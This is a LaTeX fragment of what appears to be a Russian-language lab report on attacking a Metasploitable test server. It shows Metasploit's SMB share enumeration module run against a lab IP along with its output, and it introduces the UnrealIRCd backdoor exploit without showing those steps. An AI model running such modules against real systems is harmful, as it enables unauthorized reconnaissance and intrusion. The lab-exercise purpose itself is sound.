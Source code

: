 \documentclass[10pt,a4paper]{report}
\begin{document}
		\begin{figure}[h]
			\centering
			\includegraphics[width=0.9\textwidth]{res/vncviewerLogin}
			\caption{Получение доступа к консоли при помощи vncviewer}
			\label{ris:vncviewerLogin}
		\end{figure}
		
	\section{Получение списка директорий в общем доступе по протоколу SMB}
		Переключимся на эксплойт smb\_enumshares и запустим его:
		
		\begin{lstlisting}
msf auxiliary(vnc_login) > use auxiliary/scanner/smb/smb_enumshares 
msf auxiliary(smb_enumshares) > exploit 

[+] 192.168.202.2:139 - print$ - (DISK) Printer Drivers
[+] 192.168.202.2:139 - tmp - (DISK) oh noes!
[+] 192.168.202.2:139 - opt - (DISK) 
[+] 192.168.202.2:139 - IPC$ - (IPC) IPC Service (metasploitable server (Samba 
3.0.20-Debian))
[+] 192.168.202.2:139 - ADMIN$ - (IPC) IPC Service (metasploitable server 
(Samba 3.0.20-Debian))
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
		\end{lstlisting}
		
		Из вывода видно список общих директорий: tmp и opt.
		
	\section{Получение консоли используя уязвимость в irc}
		Для использования данной уязвимости используем эксплойт 
		unreal\_ircd\_3281\_backdoor:
		
\end{document}
